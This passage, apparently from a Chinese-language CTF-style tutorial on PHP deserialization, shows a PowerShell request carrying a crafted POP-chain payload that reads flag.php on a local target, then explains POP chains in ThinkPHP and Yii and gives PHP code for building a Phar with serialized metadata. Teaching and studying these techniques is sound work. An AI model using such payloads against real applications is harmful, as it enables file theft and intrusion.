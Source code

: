 ```powershell
$ Invoke-WebRequest -Uri http://localhost/ -Method Get -Body @{hello='O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";a:1:{s:3:"str";O:4:"Test":1:{s:1:"p";O:4:"Read":1:{s:3:"var";s:8:"flag.php";}}}}s:3:"str";N;}'} | Select-Object content
Invoke-WebRequest: PD9waHANCiRmbGFnID0gJ0ZMQUd7YzY0MTk5MTY3NGIwMDYzNjdjYTM0MDA3YjM0ODc1NWM1ZmFiMDAyZH0nOw0K
```

解码后就拿到了Flag.php的代码。

##### POP链的总结

上面只是一个最简单的样例，实际上，在ThinkPHP中、Yii中，有很多的类、很多的方法，如何在确定反序列化点存在时，我们可以通过ThinkPHP或者Yii这一框架去直接进行POP链的构造，去直接利用，这才是一个难点。在哪儿有`eval`、`assert`等危险函数，怎么一步一步跳转到这个函数去进一步利用，在海量的代码前面怎么做，这才是难点所在。

#### Phar反序列化

##### Phar概述

Phar的本质是一个压缩文件，反序列化攻击的核心是其中`序列化存储的用户自定义的meta-data`。

##### Phar文件结构

* stub: phar文件标志，必须是以`xxx __HALT_COMPILER();?>`结尾，否则无法识别，`xxx`可自定义
* manifest: phar压缩信息
* content: 被压缩文件的内容
* signature(可空): 签名，末尾处

##### Phar的生成

使用PHP代码即可生成Phar，相当方便，样例如下：

```php
<?php
class Test
{
}

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$obj = new Test();
$obj->name = 'test';
$phar->setMetadata($obj);
$phar->addFromString("flag.php", "flag");

$phar->stopBuffering();
```

> 注意：需要将phar.readOnly设为Off

生成的Phar文件如下：

![image-20220516140952026](./image-20220516140952026.png)
